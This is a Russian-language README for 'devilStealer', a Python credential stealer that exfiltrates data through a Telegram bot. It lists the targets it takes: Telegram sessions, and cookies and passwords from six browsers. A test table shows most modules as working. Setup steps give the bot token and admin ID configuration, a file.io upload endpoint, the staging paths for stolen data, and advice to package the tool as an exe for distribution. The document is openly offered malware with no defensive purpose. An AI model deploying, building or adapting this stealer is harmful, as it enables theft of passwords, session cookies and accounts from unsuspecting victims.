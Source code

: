 # devilStealer
### Python стиллер с отправкой через Telegram бота
### Какие данные ворует стиллер
- Телеграмм сессия
- Куки с Chrome
- Куки с Firefox
- Куки с Opera
- Куки с Yandex
- Куки с Amigo
- Куки с Edge

- Пароли с Chrome
- Пароли с Firefox
- Пароли с Opera
- Пароли с Yandex
- Пароли с Amigo
- Пароли с Edge
  
- Снимок экрана компьютера
- Информация о ПК
  - Время запуска стиллера
  - Имя пользователя/компьютера
  - IP
  - MAC адрес
  - Hostname
  - Информация о сетевых подключениях
  - Найденные программы стиллером
  - Информация о CPU
  - Информация о GPU
  - Информация о оперативной памяти
  - Информация о дисках
  - Информация об ОС
**Данные которые ворует стиллер могут обновляться**

### Последний тест стиллера
**Версия python на которой проводились тесты: 3.11**
**Версия библиотек на которых проводились тесты:
Pillow 10.0.0
browser-cookie3 0.19.1
psutil 5.9.5
pywin32 306
pyTelegramBotAPI 4.13.0**
| Данные | Дата последнего теста | Работает |
| ----------- | ----------- | ----------- |
| Куки с Chrome    | 28.08.2023   | Да   |
| Куки с Firefox    | 27.08.2023   | Да   |
| Куки с Opera    | 27.08.2023   | Да   |
| Куки с Yandex    | 28.08.2023   | Да   |
| Куки с Amigo    | -   | ?   |
| Куки с Edge    | 27.08.2023   | Да   |
| Пароли с Chrome    | 28.08.2023   | Да   |
| Пароли с Firefox    | 28.08.2023   | Да   |
| Пароли с Opera    | 27.08.2023   | Да   |
| Пароли с Yandex    | 28.08.2023   | Да   |
| Пароли с Amigo    | -   | ?   |
| Пароли с Edge    | 28.08.2023   | Да   |
| Сессия Telegram    | 28.08.2023   | Да   |
| Снимок экрана    | 28.08.2023   | Да   |
| Информация о ПК    | 28.08.2023   | Да   |

### Как установить
#### Windows
**Установка библиотек**
```
pip install Pillow
pip install browser-cookie3
pip install psutil
pip install pywin32
pip install pyTelegramBotAPI
```
**После установки библиотек скачайте и откройте архив с данным репозиторием**
**Отредактируйте bot.py**
Измените ADMIN_ID на ваш айди телеграмма (Получить можно в боте @chatIDrobot)
Измените bot = telebot.Telebot("СЮДА ТОКЕН ВАШЕГО БОТА") (Создать бота можно в @BotFather)
```
ADMIN_ID = "ID" # Your telegram id
FILE_IO_API_URL = "https://file.io"

bot = telebot.TeleBot("TOKEN") # Your bot token
```
**Если вы хотите другой путь на сохранение временных файлов стиллера то отредактируйте stealer.py**
```
FILE_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData"
FILE_COOKIE = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\cookie"
FILE_PASSWORDS = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\passwords"
FILE_TG = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\tdata"
SCREENSHOT_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerDatascreenshot.jpg"
ZIP_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming"
```
**!!!ВНИМАНИЕ ПУТЬ АРХИВА НЕ ДОЛЖЕН БЫТЬ В ПАПКЕ ДАННЫХ (FILE_PATH путь до этой папки и других констант) СТИЛЛЕРА!!!**

**Фаил для запуска bot.py**
**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**

#### MAC OS / Linux
**Установка библиотек**
```
pip3 install Pillow
pip3 install browser-cookie3
pip3 install psutil
pip3 install pywin32
pip3 install pyTelegramBotAPI
```
**После установки библиотек скачайте и откройте архив с данным репозиторием**
**Отредактируйте bot.py**
Измените ADMIN_ID на ваш айди телеграмма (Получить можно в боте @chatIDrobot)
Измените bot = telebot.Telebot("СЮДА ТОКЕН ВАШЕГО БОТА") (Создать бота можно в @BotFather)
```
ADMIN_ID = "ID" # Your telegram id
FILE_IO_API_URL = "https://file.io"

bot = telebot.TeleBot("TOKEN") # Your bot token
```
**Если вы хотите другой путь на сохранение временных файлов стиллера то отредактируйте stealer.py**
```
FILE_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData"
FILE_COOKIE = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\cookie"
FILE_PASSWORDS = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\passwords"
FILE_TG = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\tdata"
SCREENSHOT_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerDatascreenshot.jpg"
ZIP_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming"
```
**!!!ВНИМАНИЕ ПУТЬ АРХИВА НЕ ДОЛЖЕН БЫТЬ В ПАПКЕ ДАННЫХ (FILE_PATH путь до этой папки и других констант) СТИЛЛЕРА!!!**

**Фаил для запуска bot.py**
**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**
